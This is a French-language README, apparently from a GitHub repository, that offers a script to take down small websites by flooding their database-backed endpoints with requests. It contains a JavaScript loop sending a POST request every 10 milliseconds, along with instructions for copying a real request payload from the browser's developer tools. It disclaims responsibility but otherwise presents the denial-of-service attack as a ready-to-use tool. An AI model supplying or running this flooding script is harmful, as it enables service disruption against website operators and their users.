 # Script pour down des sites

Alors, ne vous attendez pas à down des gros sites, c'est vraiment pour les petits sites pas ouf

Je ne suis pas responsable de vos actes.

## La technique

La technique consiste à spam les requêtes php ou get tout simplement qui font une requête vers une base de donnée.

## Script pour la méthode POST

(pour les méthodes get vous avez juste à modifier un peu le code mais rien de compliqué)
```javascript
setInterval(function(){

    var xhr = new XMLHttpRequest();
    xhr.open("POST", "lien de la requête post", true);
    xhr.setRequestHeader('Content-Type', 'application/json');
    xhr.send(JSON.stringify({
        payload: 'blablabla'
    }));

}, 10)

```
à la place de payload: 'blablabla' vous avez tout simplement à mettre les valeurs du payload envoyé, visible dans Inspecter élément -> Network -> (faites la requête) -> puis vous cliquez dessus et vous verrez tout ça dans Payload

## Support
Je ne ferai pas de support pour ce repo.

## License
[MIT](https://choosealicense.com/licenses/mit/)

